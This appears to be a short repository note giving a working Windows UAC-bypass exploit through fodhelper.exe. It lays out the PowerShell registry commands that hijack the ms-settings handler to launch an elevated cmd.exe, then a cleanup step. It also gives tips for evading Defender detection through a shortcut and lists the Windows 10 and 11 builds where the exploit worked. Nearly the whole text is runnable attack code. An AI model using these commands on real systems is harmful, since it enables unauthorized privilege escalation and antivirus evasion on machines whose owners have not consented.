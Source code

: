 Primary role is to facilitate the installation and management of features on demand (FOD).
### Create Registry Structure
```Powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force

New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name “(default)” -Value “C:\Windows\System32\cmd.exe” -Force
```

### Start fodhelper.exe
```Powershell
Start-Process "C:\Windows\System32\fodhelper.exe"
```

### Cleanup
```Powershell
Start-Sleep 3

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```


### Notes
- Defender is triggered when trying to set the registry value as "cmd.exe"
- This can be bypassed. Create a shortcut to "cmd.exe". Then use the path to that shortcut as the registry value.
- Worked on Windows 10 Pro N 1909 Build 18363.1139 after disabling Defender.
- Worked on  Windows 11 Pro N 23H2 Build 22631.3737 after disabling Defender.